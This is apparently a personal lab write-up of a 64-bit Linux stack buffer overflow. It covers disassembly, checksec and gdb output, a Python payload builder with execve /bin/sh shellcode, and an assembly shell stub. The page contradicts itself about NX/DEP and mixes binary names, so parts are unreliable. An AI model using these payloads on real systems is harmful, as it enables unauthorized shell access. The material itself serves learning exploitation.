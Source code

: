 ```yaml
---
title: Exploiting NX
published: true
---
```


For this topic I went with 
[https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/](Binary can be found here)

### Disassembly

I made an effort to ignore the source code and use disassembly to identify the buffer overflow. I set the assembly flavor to be Intel for easier reading.

```bash
devel@kub:~/challenges/r2libc$ objdump -M intel -d ./ret2libc vuln
<snip>
0000000000401176 <vuln>:
  401176:       f3 0f 1e fa             endbr64 
  40117a:       55                      push   rbp
  40117b:       48 89 e5                mov    rbp,rsp
  40117e:       48 83 ec 60             sub    rsp,0x60
  401182:       48 8d 45 a0             lea    rax,[rbp-0x60]
  401186:       ba 90 01 00 00          mov    edx,0x190
  40118b:       48 89 c6                mov    rsi,rax
  40118e:       bf 00 00 00 00          mov    edi,0x0
  401193:       e8 e8 fe ff ff          call   401080 <read@plt>
  401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax
  40119b:       48 8d 55 a0             lea    rdx,[rbp-0x60]
  40119f:       8b 45 fc                mov    eax,DWORD PTR [rbp-0x4]
  4011a2:       89 c6                   mov    esi,eax
  4011a4:       48 8d 3d 59 0e 00 00    lea    rdi,[rip+0xe59]        # 402004 <_IO_stdin_used+0x4>
  4011ab:       b8 00 00 00 00          mov    eax,0x0
  4011b0:       e8 bb fe ff ff          call   401070 <printf@plt>
  4011b5:       48 8d 3d 63 0e 00 00    lea    rdi,[rip+0xe63]        # 40201f <_IO_stdin_used+0x1f>
  4011bc:       e8 9f fe ff ff          call   401060 <puts@plt>
  4011c1:       b8 00 00 00 00          mov    eax,0x0
  4011c6:       c9                      leave  
  4011c7:       c3                      ret    

00000000004011c8 <main>:
  4011c8:       f3 0f 1e fa             endbr64 
  4011cc:       55                      push   rbp
  4011cd:       48 89 e5                mov    rbp,rsp
  4011d0:       48 83 ec 10             sub    rsp,0x10
  4011d4:       89 7d fc                mov    DWORD PTR [rbp-0x4],edi
  4011d7:       48 89 75 f0             mov    QWORD PTR [rbp-0x10],rsi
  4011db:       48 8d 3d 51 0e 00 00    lea    rdi,[rip+0xe51]        # 402033 <_IO_stdin_used+0x33>
  4011e2:       b8 00 00 00 00          mov    eax,0x0
  4011e7:       e8 84 fe ff ff          call   401070 <printf@plt>
  4011ec:       b8 00 00 00 00          mov    eax,0x0
  4011f1:       e8 80 ff ff ff          call   401176 <vuln>
  4011f6:       b8 00 00 00 00          mov    eax,0x0
  4011fb:       c9                      leave  
  4011fc:       c3                      ret    
  4011fd:       0f 1f 00                nop    DWORD PTR [rax]
<snip>
```

The stack space created is 0x60 (96) bytes. We can tell from 
`401198:       89 45 fc                mov    DWORD PTR [rbp-0x4],eax` and
`401182:       48 8d 45 a0             lea    rax,[rbp-0x60]`

that there are two stack variables at least. The first one is 8 bytes (likely an int) which means there must be another 8 bytes of padding. The remaining 0x50 (80) bytes make up the stack buffer

So in the vuln function there is a buffer of at most 0x50 (80) bytes, but read is given a size of 0x190 (400) bytes.


### checksec

Next up is to determine exactly what security protections are in place. 

```bash
devel@kub:~/challenges/classic$ checksec classic
[*] '/home/devel/challenges/classic/classic'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments

devel@kub:~/challenges/classic$ cat /proc/sys/kernel/randomize_va_space 
0
```

We know that DEP is enabled. DEP can be defeated with ROP.

### Buffer Overflow

The first step in any buffer overflow is find the size of the overflow. I'm using PEDA.

I start gdb on the binary. First step is to make a pattern big enough to guarantee an overflow. 0x60 is 96 bytes, so I'll make a pattern of 500 bytes just to be sure.

```bash
db-peda$ pattern_create 400 in.txt
Writing pattern of 400 chars to filename "in.txt"
```

Next I run the binary with in.txt as input.

```bash
gdb-peda$ r < in.txt
Try to exec /bin/sh
Read 400 bytes. buf is AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKA�
No shell for you :(

Program received signal SIGSEGV, Segmentation fault.
```

64 bit doesn't allow direct manipulation of RIP, so I need to look at RSP to see if I control that

```bash
gdb-peda$ x/wx $rsp
0x7fffffffe508: 0x41413741

gdb-peda$ pattern_offset 0x41413741
1094793025 found at offset: 104
```

The overflow occurs at 104 bytes in

### shellcode

The stack is executable so instead of a pattern, I can write shellcode to the buffer

I'm going to use a NOP sled, followed by shellcode that runs `/bin/sh`

#### Gotcha 1
 GDB will show the exploit running by using `r < in.txt`
 
 To get it to run on the command line we need to use trickery. `(cat in.txt ; cat) | ./classic`
 [https://security.stackexchange.com/questions/155844/using-cat-file-cat-to-run-a-simple-bof-exploit](cat BOF)
 
#### Gotcha2
GDB alters the environment by setting LINES and COLUMNS. Unset these live or in .gdbinit
```
unset env LINES
unset env COLUMNS
```

Also remove any environment with `env - /abs/path/classic` and `env - gdb /abs/path/classic`


### results

I never did get the full shellcode running. The addresses are slightly off still

### python 

```py
#!/usr/bin/python3
import struct

buflen = 104
nop = b'\x90' * 40

# 27 byte execve /bin/sh from tutorial
#shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"
# call exit instead of execve. Works.
#shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3c\x0f\x05"

# 25 byte execve /bin/sh
#shellcode = b"\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\xCC\x0f\x05"

# 30 byte execve /bin/sh
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\xCC\x0f\x05"

# execve /bin/bash with esp math?
#shellcode = b"\xCC\x48\x31\xd2\x52\x48\x83\xec\x40\xc6\x44\x24\x07\x2f\xc7\x44\x24\x08\x62\x69\x6e\x2f\xc7\x44\x24\x0c\x62\x61\x73\x68\x48\x8d\x7c\x24\x07\x52\x57\x48\x89\xe6\x31\xc0\xb0\x3b\xCC\x0f\x05"

# print hello world. works.
#shellcode = b"\xeb\x1e\x5e\x48\x31\xc0\xb0\x01\x48\x89\xc7\x48\x89\xfa\x48\x83\xc2\x0e\x0f\x05\x48\x31\xc0\x48\x83\xc0\x3c\x48\x31\xff\x0f\x05\xe8\xdd\xff\xff\xff\x48\x65\x6c\x6c\x6f\x2c\x20\x77\x6f\x72\x6c\x64\x21\x0a"



#rip = struct.pack("<Q", 0x7fffffffde50) # address of buffer gdb
rip = struct.pack("<Q", 0x7fffffffdea0) # address of buffer normal

padding = b"D" * (buflen - len(nop) - len(shellcode))
payload = nop + shellcode + padding + rip

f = open("in.txt", "wb")
f.write(payload)
f.close()
```

```asm
# nasm -f elf64 sh.s -o sh.o
# ld sh.o -o sh
# gcc -m64 -Wl,-e_start -nostdlib hello.S
	
.section .text
  .globl _start

	_start:
	    # third argument of execve is envp, set to NULL
	    xor %rdx, %rdx 

	    # zero terminator
	    push %rdx

	    # space for string
	    sub $16, %rsp

	    # end is aligned to the zero terminator
	    movb $0x2f, 7(%rsp)        # /
	    movl $0x2f6e6962, 8(%rsp)  # bin/
	    movl $0x68736162, 12(%rsp) # bash
	    movl $0x0a, 16(%rsp)

	    # first argument to execve is the file name
	    leaq 7(%rsp), %rdi

	    # push NULL to the stack, argv terminator
	    pushq %rdx 

	    # also argv[0]
	    push %rdi

	    # second argument to execve is argv
	    mov %rsp, %rsi

	    # copy 59 to rax, defining syscall number for execve
	    # avoid zero byte
	    xor %eax, %eax
	    movb $59, %al 
	    syscall
```
